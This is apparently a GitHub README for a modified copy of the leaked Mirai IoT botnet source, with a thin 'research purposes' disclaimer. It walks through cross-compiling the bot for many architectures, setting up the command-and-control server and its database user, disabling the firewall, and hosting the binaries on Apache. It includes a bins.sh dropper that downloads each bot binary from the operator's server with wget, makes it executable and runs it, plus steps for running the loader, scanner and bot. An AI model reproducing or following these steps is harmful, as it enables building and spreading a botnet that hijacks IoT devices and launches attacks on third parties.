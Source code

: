 # Mirai BotNet to Tashiro(未来砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code

I was referring to this for a moment.<br />
https://gist.github.com/ppoffice/86beb0f90de5aeec75aabd517ebc5e43

## Requirements
* To be able to use vi.
* Do not run in WSL.(I tried, but I couldn't use mysql or compile it.)
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution.

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.

https://programmer.group/mirai-botnet-environment-setup-steps.html

```
# sudo apt-get install git gcc golang electric-fence mysql-server mysql-client
```
If you are using debian, you cannot install mysql as it is, so please install it in the following way.
```
# wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
# sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
# sudo apt update && sudo apt install mysql-server mysql-client
```
After installing the dependency tools, follow the steps below.
```
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh release telnet
```
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
If you have iptbales/ip6tables or any firewall install disable it.
```
# sudo service iptables stop
```
Database setup<br />
※It will ask you to set a password, make sure you remember this.
```
# sudo /usr/bin/mysql_secure_installation
```
Go to `cd cnc/` and replace the root password you just entered with the MySQL_Password.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```
Add users to mysql.
```
# cd ../scripts
# sudo mysql -uroot -pMySQL_Password
> INSERT INTO users VALUES (NULL, 'tashiro', 'mystrongestpassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# sudo service mysql restart
```
Once you restart the mysql server, go to your debug folder ./mirai/release, you will seen a compiled file named cnc execute it.
```
# cd ../mirai/release
# sudo ./cnc
```
Open a new window and execute the following command
```
# cd ..
# cp prompt.txt release/
```
Then, use telnet to connect to your IP address.<br />
The following is an example of running the telnet command.
```
# telnet 192.168.19.19
```
OK, well use this user name and password to login in this case the username is: `tashiro` and the password is: `mystrongestpassword`

again in you server Terminal some like Putty or mobaxterm.<br />
Go to this directory ../Mirai-Source-Code/mirai/release
```
# cd ./Mirai-Source-Code/mirai/release
```
Next, install and start the Apache server.
```
# sudo apt install apache2
# sudo service apache2 start
```
copy the mirai files at the apache source.
```
# sudo cp mirai.* /var/www/html
```
well we need to delete the index to show the index file directory on browser.
```
# rm /var/www/html/index.html
```
Then open a browser and enter http://localhost or your IP address and see if the file appears.

Go to /var/www/html and create bins.sh.
```
# cd /var/www/html
# touch bins.sh
```
Then, open bins.sh and write the following
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done
```
If you have vps, please upload /var/www/html using sftp.<br />
※If you do not have a vps, you may leave it as is.<br />
Please check by yourself if it really uploaded, I don't know much about vps or anything like that.

Now restart the Apache server.
```
# sudo service apache2 restart
```
Next, to build the loader, go to Mirai-Source-Code-plus/loader/ and build the loader.<br />
※Omit commands to move.
```
# chmod +x build.sh
# ./build.sh
```
and after than type this code but put you filename here --> file.txt before paste
```
# cat file.txt | ./loader wget http://dyn.com
```
This completes the installation. :)<br />
Thank you for your hard work. Take a break and have a cup of coffee or something.

## How to use
※If you are not logged in as root, be sure to add sudo and follow these steps.

https://programmer.group/mirai-botnet-environment-setup-steps.html

```
# ./release/cnc
```
Open a new winsow.
```
# telnet cnc.change.com 23
```
username & password
```
username: mirai-user
password: mirai-user
```
Open a new winsow.
```
# cd mirai/debug
# ./scanListen
```
Open a new winsow.
```
# sudo ./mirai.dbg
```
